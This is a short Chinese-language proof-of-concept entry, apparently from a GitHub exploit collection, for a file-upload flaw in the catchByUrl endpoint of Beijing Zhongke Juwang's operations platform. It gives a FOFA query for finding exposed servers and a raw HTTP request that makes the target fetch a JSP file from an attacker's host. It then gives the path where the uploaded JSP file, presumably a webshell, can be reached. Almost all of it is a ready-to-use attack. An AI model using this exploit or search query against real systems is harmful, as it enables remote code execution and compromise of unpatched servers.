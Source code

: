 ## 北京中科聚网一体化运营平台catchByUrl存在文件上传漏洞

## fofa
```
body="thirdparty/ueditor/WordPaster"
```

## poc
```
GET /resources/files/ue/catchByUrl?url=http://vpsip/exp.jsp HTTP/1.1 
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
Connection: close
```

![image](https://github.com/wy876/POC/assets/139549762/3e2d95ec-d3e1-44a9-aed6-17152ed0a3aa)

文件路径`http://ip/files/headimg/.jsp`

